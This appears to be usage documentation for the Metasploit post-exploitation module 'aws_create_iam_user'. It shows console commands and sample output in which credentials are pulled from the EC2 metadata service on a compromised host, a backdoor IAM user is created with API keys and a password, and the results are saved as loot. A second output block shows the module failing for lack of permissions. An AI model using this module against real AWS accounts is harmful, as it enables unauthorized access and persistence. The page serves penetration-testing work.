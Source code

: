 Here we are assuming that we have taken over a host having an instance profile with
overly permissive access. Once a session is established, we can load
`aws_create_iam_user` and specify a meterpreter session,
e.g., `SESSION 1` and run the exploit.

```
msf post(aws_create_iam_user) > set SESSION 1
SESSION => 1
msf post(aws_create_iam_user) > exploit

[*] 169.254.169.254 - looking for creds...
[*] Creating user: gavgpsjXwj5HIxiz
[*] Creating group: gavgpsjXwj5HIxiz
[*] Creating group policy: gavgpsjXwj5HIxiz
[*] Adding user (gavgpsjXwj5HIxiz) to group: gavgpsjXwj5HIxiz
[*] Creating API Keys for gavgpsjXwj5HIxiz
[*] Creating password for gavgpsjXwj5HIxiz
AWS Account Information
=======================

UserName          GroupName         SecretAccessKey                           AccessKeyId           Password          AccountId
--------          ---------         ---------------                           -----------           --------          ---------
gavgpsjXwj5HIxiz  gavgpsjXwj5HIxiz  oX4csvu3Wun+GqVDzBHQ3FNfv41UhC4ibkLAmaW2  AKIAJRZQ2ENY45KKRBHQ  gavgpsjXwj5HIxiz  xxxxx

[+] AWS CLI/SDK etc can be accessed by configuring with the above listed values
[+] AWS console URL https://xxxxx.signin.aws.amazon.com/console may be used to access this account
[+] AWS loot stored at: /Users/yyyy/.msf4/loot/20161208140720_default_172.30.0.116_AWScredentials_099259.txt
```

If the host does not have an instance profile or the right access, the output will look like so:

```
[*] 169.254.169.254 - looking for creds...
[*] Creating user: 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateUser on resource: arn:aws:iam::abcd:user/3SFFML3ucP1AyP7J
[*] Creating group: 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateGroup on resource: arn:aws:iam::abcd:group/3SFFML3ucP1AyP7J
[*] Creating group policy: 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:PutGroupPolicy on resource: group 3SFFML3ucP1AyP7J
[*] Adding user (3SFFML3ucP1AyP7J) to group: 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:AddUserToGroup on resource: group 3SFFML3ucP1AyP7J
[*] Creating API Keys for 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateAccessKey on resource: user 3SFFML3ucP1AyP7J
[*] Post module execution completed
```
